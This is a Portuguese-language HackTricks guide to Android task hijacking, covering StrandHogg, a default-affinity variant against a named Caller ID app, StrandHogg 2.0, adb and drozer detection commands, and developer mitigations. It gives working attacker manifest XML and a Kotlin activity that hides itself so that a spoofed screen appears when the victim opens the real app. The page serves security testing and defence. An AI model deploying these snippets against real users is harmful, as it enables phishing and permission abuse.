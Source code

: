 # Android Task Hijacking

{{#include ../../banners/hacktricks-training.md}}

## Tarefas, Pilha de Atividades e Atividades em Primeiro Plano

No Android, uma **tarefa** é essencialmente um conjunto de atividades com as quais os usuários interagem para completar um trabalho específico, organizadas dentro de uma **pilha de atividades**. Esta pilha ordena as atividades com base em quando foram abertas, com a atividade mais recente exibida no topo como a **atividade em primeiro plano**. A qualquer momento, apenas esta atividade é visível na tela, tornando-se parte da **tarefa em primeiro plano**.

Aqui está um resumo rápido das transições de atividades:

- **Atividade 1** começa como a única atividade em primeiro plano.
- Lançar **Atividade 2** empurra **Atividade 1** para a pilha de atividades, trazendo **Atividade 2** para o primeiro plano.
- Iniciar **Atividade 3** move **Atividade 1** e **Atividade 2** mais para trás na pilha, com **Atividade 3** agora na frente.
- Fechar **Atividade 3** traz **Atividade 2** de volta ao primeiro plano, mostrando o mecanismo de navegação de tarefas simplificado do Android.

![https://developer.android.com/images/fundamentals/diagram_backstack.png](<../../images/image (698).png>)

---

## Ataques de afinidade de tarefa

`taskAffinity` informa ao Android a qual tarefa uma `Activity` *prefere* pertencer. Quando duas atividades compartilham a mesma afinidade, **o Android pode mesclá-las dentro da mesma pilha de atividades, mesmo que venham de diferentes APKs**.

Se um atacante conseguir colocar uma atividade maliciosa na **raiz** dessa pilha, toda vez que a vítima abrir o aplicativo legítimo, a interface maliciosa será a primeira coisa que o usuário verá – perfeito para phishing ou solicitações de permissões abusivas.

A superfície de ataque é mais ampla do que muitos desenvolvedores pensam, porque **cada atividade herda automaticamente uma afinidade igual ao nome do pacote do aplicativo** (a menos que o desenvolvedor defina `android:taskAffinity=""`). Portanto, *não fazer nada* já deixa o aplicativo vulnerável a sequestro de tarefas em versões do Android anteriores à 11.

### Cenário clássico "singleTask / StrandHogg"

1. O atacante declara uma atividade com:
```xml
<activity android:name=".EvilActivity"
android:exported="true"
android:taskAffinity="com.victim.package"
android:launchMode="singleTask" >
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
```
2. O aplicativo malicioso é iniciado uma vez para que a tarefa (com a afinidade falsificada) exista nas tarefas recentes.
3. Quando o usuário abre o aplicativo real mais tarde, o Android encontra uma tarefa cuja **afinidade raiz corresponde ao pacote** e simplesmente traz essa tarefa para o primeiro plano.
4. A interface do atacante é exibida primeiro.

### Variante Default–Affinity (sem `singleTask`) – Estudo de caso de Caller ID

A vulnerabilidade relatada no aplicativo **Caller ID (caller.id.phone.number.block)** mostra que o ataque *também* funciona contra o modo de lançamento `standard` padrão:

1. O aplicativo atacante cria uma atividade raiz falsa e imediatamente se oculta:
```kotlin
class HackActivity : AppCompatActivity() {
override fun onCreate(savedInstanceState: Bundle?) {
super.onCreate(savedInstanceState)
moveTaskToBack(true)   // mantém a tarefa nas recentes, mas fora de vista
}
}
```
2. O manifesto só precisa copiar o pacote da vítima em `taskAffinity`:
```xml
<activity android:name=".HackActivity"
android:exported="true"
android:taskAffinity="com.caller.id.phone.number.block" >
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
```
3. Assim que o usuário instala e abre o aplicativo malicioso **uma vez**, uma tarefa cuja afinidade é igual ao pacote da vítima existe (mas fica em segundo plano).
4. Quando o aplicativo real de Caller ID é lançado, o Android reutiliza essa tarefa e traz `HackActivity` para o primeiro plano → janela de phishing/abuso de permissão.

> NOTA: A partir do **Android 11 (API 30)**, o sistema *não* coloca dois pacotes que não fazem parte do mesmo UID na mesma tarefa por padrão, mitigando essa variante específica. Versões mais antigas permanecem vulneráveis.

---

### StrandHogg 2.0 (CVE-2020-0096) – Sequestro de tarefa baseado em reflexão

O boletim de segurança de maio de 2020 do Google corrigiu uma variante mais avançada chamada **StrandHogg 2.0**. O exploit **não depende de `taskAffinity` de forma alguma**; em vez disso, usa *reflexão* para inserir dinamicamente a atividade do atacante no topo de *todas* as tarefas em execução, contornando completamente a restrição de “UID compartilhado” introduzida pelo Android 11.

Pontos-chave:

* Um aplicativo malicioso sem permissões pode, uma vez aberto, iterar sobre tarefas em execução e chamar APIs ocultas para **reparentar** sua própria atividade em qualquer tarefa.
* Como a atividade é inserida após o tempo de execução, nem `launchMode` nem análise estática do manifesto podem detectar o ataque com antecedência.
* Corrigido por meio de um back-port de uma verificação no **Android 8.0/8.1/9** (SPL de maio de 2020). **Android 10 e versões posteriores não são afetados.**

A detecção em dispositivos pré-corrigidos pode ser realizada com `adb shell dumpsys activity activities` e observando atividades suspeitas cujo nome de pacote difere da *afinidade* da tarefa.

A mitigação para dispositivos legados é a mesma do sequestro de tarefas clássico **mais** verificação em tempo de execução (por exemplo, chamando [`ActivityManager#getRunningTasks`](https://developer.android.com/reference/android/app/ActivityManager#getRunningTasks(int)) e validando seu próprio nome de pacote).

---

## Lista de verificação de Detecção & Exploração

1. **Revisão estática** – Extraia `AndroidManifest.xml` do APK alvo e verifique se cada `<activity>` (ou o elemento global `<application>`) contém `android:taskAffinity=""` (vazio) **ou** um valor personalizado. Ferramentas como:
```bash
# Usando apkanalyzer (Android SDK)
apkanalyzer manifest print app.apk | grep -i taskaffinity

# Usando AXMLPrinter2
java -jar AXMLPrinter2.jar AndroidManifest.xml | grep taskAffinity
```
2. **Revisão dinâmica** – No dispositivo, abra o aplicativo alvo e liste as tarefas:
```bash
adb shell dumpsys activity activities | grep -A3 "TASK" | grep -E "Root|affinity"
```
Uma tarefa cuja afinidade raiz é igual ao pacote da vítima, mas cuja atividade superior pertence a um *pacote diferente* é um sinal de alerta.
3. Crie um aplicativo malicioso conforme descrito acima, ou use **[Drozer](https://github.com/WithSecureLabs/drozer)**:
```bash
drozer console connect
run app.activity.start --component com.victim/.MainActivity --action android.intent.action.MAIN
run app.activity.info com.victim
```

---

## Mitigação

Os desenvolvedores devem:

* Definir explicitamente `android:taskAffinity=""` no nível `<application>` (recomendado) **ou** dar a cada atividade uma afinidade única e privada.
* Para telas altamente sensíveis, combine o acima com `android:launchMode="singleInstance"` ou proteções modernas [`setLaunchMode`](https://developer.android.com/reference/android/content/pm/ActivityInfo#launchMode).
* Atualizar a `targetSdkVersion` do aplicativo e impor mudanças comportamentais do **Android 11** onde as tarefas não são compartilhadas entre pacotes por padrão.
* Almejar **Android 12 (API 31) ou superior** para que o atributo obrigatório `android:exported` force os desenvolvedores a auditar cada componente acessível externamente.
* Considerar autodefesa em tempo de execução: consultar periodicamente `ActivityTaskManager` para garantir que o pacote da sua atividade superior corresponda ao seu próprio.

---

## Técnicas relacionadas de UI-Hijacking

O sequestro de tarefas é frequentemente combinado ou substituído por **tapjacking** (decepção de UI baseada em sobreposição). A pesquisa de 2025 **TapTrap** mostrou que atividades *transparentes e impulsionadas por animação* podem contornar as restrições de toque de sobreposição introduzidas no Android 12–14 e ainda enganar os usuários para conceder permissões perigosas. Embora TapTrap não seja estritamente *sequestro* de tarefas, o objetivo final (cliques de phishing) é idêntico – portanto, avaliações modernas devem verificar ambas as superfícies de ataque.

---

## Referências

- [https://blog.dixitaditya.com/android-task-hijacking/](https://blog.dixitaditya.com/android-task-hijacking/)
- [https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html](https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html)
- [Android Manifest Misconfiguration Leading to Task Hijacking in Caller ID app](https://github.com/KMov-g/androidapps/blob/main/caller.id.phone.number.block.md)
- [https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06](https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06)
- [Promon – StrandHogg 2.0 (CVE-2020-0096) technical write-up](https://promon.io/resources/downloads/strandhogg-2-0-new-serious-android-vulnerability)
- [USENIX 2025 – TapTrap: Animation-Driven Tapjacking on Android](https://www.usenix.org/conference/usenixsecurity25/presentation/beer)

{{#include ../../banners/hacktricks-training.md}}
